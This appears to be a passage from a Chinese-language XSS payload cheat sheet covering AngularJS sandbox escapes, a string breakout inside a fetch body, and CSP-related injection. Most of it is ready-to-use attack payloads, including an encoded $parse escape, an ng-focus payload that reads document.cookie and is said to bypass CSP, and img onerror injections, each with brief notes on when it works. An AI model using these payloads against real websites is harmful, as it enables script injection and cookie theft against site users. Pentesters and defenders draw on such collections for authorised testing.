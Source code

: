 ### 19、AngularJS沙箱逃逸

#### 无字符串：                           

```js
<script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
                            var key = 'toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)';
                            $scope.query[key] = '1';
                            $scope.value = $parse(key)($scope.query);
                        });</script>
```

条件：

1. 存在$parse函数
2. key可控，输入payload:

```
toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

原理是例如篡改 `charAt`、`join` 等方法，干扰沙箱的字符串检查，使得在解析字符串的时候出现错误，进而当成表达式执行

#### 有字符串：

InnerHtml可控：payload，还可绕过CSP

```html
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>
```

### 20、fetch body中的闭合

```js
javascript:fetch('/analytics', {
  method: 'post',
  body: '/post?postId=2&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}
).finally(_ => window.location = '/')
```

payload:

```
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

### 21、CSP旁注

原理：

	响应标头中的CSP能够被参数控制

注入：

```img src=1 onerror=alert()>
<img src=1 onerror=alert()>
```
